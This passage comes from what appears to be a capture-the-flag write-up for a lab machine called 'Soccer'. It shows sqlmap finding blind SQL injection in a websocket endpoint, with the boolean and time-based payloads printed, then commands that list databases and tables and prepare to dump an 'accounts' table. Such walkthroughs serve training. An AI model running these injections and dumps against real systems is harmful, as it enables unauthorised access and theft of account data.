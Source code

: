 ```bash
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-9383 OR 7369=7369"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1234 AND (SELECT 9125 FROM (SELECT(SLEEP(5)))hvYE)"}
---
[20:02:33] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
...[snip]...
```

This will run a bunch of tests which will take a few minutes to complete. Due to the `--batch` SQLMap argument default answers will be selected for every prompt that pops up.

### Enumerating the Database

From the looks of it it seems that `sqlmap` has found a boolean and time-based blind inject. I reuse the same command from earlier and add `--dbs` to have `sqlmap` automatically pick up where it left up and exploit the vulnerability to list me all available databases:

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --dbs --threads 10

...[snip]...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
...[snip]...
```

`soccer_db` seems like the only non-default DB. Replacing `--dbs` with `-D soccer_db` and adding `--tables` to get a list of all tables in the Soccer database:

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D soccer_db --tables --threads 10

...[snip]...
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
...[snip]...
```

Seems there is only one table `accounts`. So this time I replace `--tables` with `-T accounts` and add `--dump` to dump the whole database.
